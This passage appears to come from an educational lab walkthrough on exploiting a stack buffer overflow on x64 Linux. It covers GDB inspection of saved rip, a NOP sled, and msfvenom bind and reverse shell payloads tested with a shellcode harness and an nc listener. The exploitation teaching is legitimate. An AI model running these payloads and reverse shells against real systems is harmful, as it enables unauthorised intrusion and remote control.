 Great, now it seems to work. Lets just try it in GDB real to make sure.
Huh, another segfault. Lets look at the memory to see what going on.

```shell
(gdb) x/16x $rsp
0x7fffffffdbd0: 0x00000000      0x00000000      0x41414141      0x41414141
0x7fffffffdbe0: 0x41414141      0x41414141      0xffffdc68      0x00007fff
0x7fffffffdbf0: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffdc00: 0xdb31c031      0x01b0d231      0xc0fec689      0x06b2c789
```

At `saved rip` `0x7fffffffdbe8` we can see that we correct wrote `0x7fffffffdc60 + 8` as the next instruction. Sadly in this context that address is way above our injected code.
How do we fix this? As we can also see there are a bunch of `\x90`s in here which is the NOP (No Operation) instruction. NOP instructions do nothing besides incrementing `rip`.
If we once again look at `payload.py` we can also see `sledsize` as a constant. The idea is to simply slide into our actual code with a bunch of NOPs.
We simply set this to something high like 2048 and remake our `payload.bin`.
If we now run this with GDB again everything should work.


#### Exercise 5 (Optional): Experimenting with other payloads.

As said earlier the payload we have been using a bind shell as our payload.
The specific hex code comes from [https://shell-storm.org/shellcode/index.html](shell-storm.org)



We can open the metasploit framework `msfconsole` to find some other payloads.
With `search platform:linux arch:x64` we can find all payloads available for 64bit linux.
You can pick whatever payload you want, but i suggest using one of these.

```shell
linux/x64/shell_bind_tcp
linux/x64/meterpreter/bind_tcp
linux/x64/shell_reverse_tcp
linux/x64/meterpreter/reverse_tcp
```

We can use `info <module-name>` to get more information. I im going to be using `linux/x64/shell_reverse_tcp`, so if you are using something else just google how to interact with it.

```shell
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -f c

# -f	-- format flag, allows a lot of languages as option
```

Now you can take the output of `msfvenom` and use it to make a new `test.c`.

```c
int main() {
    char buf[] = "";          // replace with payload
    (*(void (*)()) buf)();
}
```

```shell
gcc -g test.c -o test -fno-stack-protector -z execstack
```
We do this to see if the shellcode is even working. In the case of `linux/x64/shell_reverse_tcp` we can use `nc -lvp 4444`, this create a tcp listener on port 4444.
If the payload you choose needs something else, then do that.

We can `./test` and our listener should receive a connection. Now we simply use `msfvenom` with `-f py` and it generate a payload we can modify `payload.py` with.
After regenerating `payload.bin` and restarting `nc -lvp 4444` we can now `./vuln < payload.bin` and have it connect.




